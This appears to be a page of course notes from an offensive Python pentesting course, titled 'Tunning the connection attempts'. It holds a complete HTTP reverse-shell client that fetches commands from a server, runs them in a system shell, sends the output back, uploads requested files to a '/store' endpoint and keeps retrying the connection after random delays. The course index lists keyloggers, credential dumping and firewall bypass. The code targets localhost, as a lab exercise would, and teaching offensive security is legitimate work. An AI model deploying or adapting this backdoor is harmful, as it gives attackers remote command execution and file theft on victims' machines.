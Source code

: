 ```yaml
---
title: Tunning the connection attempts
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
---
```


# Tunning the connection attempts

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


## Client side

We put our previous [http shell](coding-an-http-reverse-shell.md) in a function called connect.

```python
import requests
import os
import subprocess
import time

import random # Needed to generate random 


def connect(): # we put our previous http shell in a function called connect

    while True:

        req = requests.get('http://127.0.0.1:8080')
        command = req.text

        if 'terminate' in command:
            return 1 # if we got terminate order, then we exit connect function and return a value of 1, this value will be used to end up the whole script


        elif 'grab' in command:
            grab, path = command.split("*")
            if os.path.exists(path):
                url = "http://127.0.0.1:8080/store"
                files = {'file': open(path, 'rb')}
                r = requests.post(url, files=files)
            else:
                post_response = requests.post(url='http://127.0.0.1:8080', data='[-] Not able to find the file!'.encode())
        else:
            CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
            post_response = requests.post(url='http://127.0.0.1:8080', data=CMD.stdout.read())
            post_response = requests.post(url='http://127.0.0.1:8080', data=CMD.stderr.read())
    time.sleep(3)


# Here we start our infinite loop, we try to connect to our kali server, if we got an exception (connection error)
# then we will sleep for a random time between 1 and 10 seconds and we will pass that exception and go back to the 
# infinite loop once again untill we got a sucessful connection. 


while True:
    try:
        if connect() == 1:
            break
    except:
        sleep_for = random.randrange(1, 10)#Sleep for a random time between 1-10 seconds
        time.sleep(int(sleep_for))
        #time.sleep( sleep_for * 60 )      #Sleep for a random time between 1-10 minutes
        pass

```